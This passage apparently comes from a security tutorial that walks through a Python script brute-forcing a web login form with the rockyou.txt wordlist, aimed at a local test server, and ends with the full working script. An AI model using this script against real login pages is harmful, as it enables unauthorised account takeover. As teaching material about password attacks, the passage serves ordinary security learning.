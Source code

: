 ```python
            r = requests.post(target, data={"username": username, "password": password})
```

The script sends an HTTP POST request to the target URL using `requests.post`, with the current `username` and `password` included as form data. This action simulates a login attempt by submitting the credentials to the web application's login page.

```python
            if needle.encode() in r.content:
                sys.stdout.write("\n")
                sys.stdout.write("\t[>>>>>] Valid password '{}' found for user '{}'!".format(password.decode(), username))
                sys.exit()
                sys.stdout.flush()
```

The script checks whether the `needle` (the predefined success message) is present in the response content (`r.content`). If the needle is found, it indicates a valid login. The script then prints a success message, specifying the correct password and username, and exits immediately using `sys.exit()` to stop further brute force attempts.

```python
        sys.stdout.write("\n")
        sys.stdout.write("\tNo password found for '{}'!".format(username))
        sys.stdout.write("\n")
```

If all passwords in the list are tested for a particular username and none result in a successful login, the script prints a message stating that no valid password was found for that username. It then moves on to the next username in the list, continuing the brute force process.

The final version of the script is below:

```python
import requests  
import sys

target = "http://127.0.0.1:5000/login"
usernames = ["admin", "user", "administrator"]
passwords = "rockyou.txt"
needle = "Login successful!"

for username in usernames:
    with open(passwords, "r") as passwords_list:
        for password in passwords_list:
            password = password.strip("\n").encode()
            sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
            sys.stdout.flush()
            r = requests.post(target, data={"username": username, "password": password})
            if needle.encode() in r.content:
                sys.stdout.write("\n")
                sys.stdout.write("\t[>>>>>] Valid password '{}' found for user '{}'!".format(password.decode(), username))
                sys.exit()
                sys.stdout.flush()
        sys.stdout.write("\n")
        sys.stdout.write("\tNo password found for '{}'!".format(username))
        sys.stdout.write("\n")  
```


[^1]: Source: [Python Documentation](https://docs.python.org/3/)